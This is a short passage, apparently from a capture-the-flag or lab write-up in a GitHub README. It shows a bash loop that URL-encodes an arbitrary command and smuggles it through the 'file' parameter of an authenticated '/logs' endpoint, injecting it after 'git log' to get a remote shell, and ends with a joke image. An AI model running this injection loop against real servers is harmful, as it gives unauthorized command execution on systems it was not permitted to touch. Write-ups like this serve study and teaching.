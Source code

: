 ```bash
    cmd=$(echo -n $cmd | jq -sRr @uri | sed -e "s/'/%27/g")

    # Execute command
    out=$(curl \
             -s \
             -H "auth-token: $jwt" \
             $url"/logs?file=DoesNotExists;%20"$cmd \
             | sed -e 's/^"//g' -e 's/"$//g')

    if ! [[ $out == *'{"killed":false,"code":'*',"signal":null,"cmd":"git log --oneline DoesNotExists;'* ]]; then
        # Print output
        echo -e $out
    fi
done
```

Now, it's time to:

<img src="img/haşırt.png" alt="haşırt dı bılekbort keş on dı teybıl" width="500">
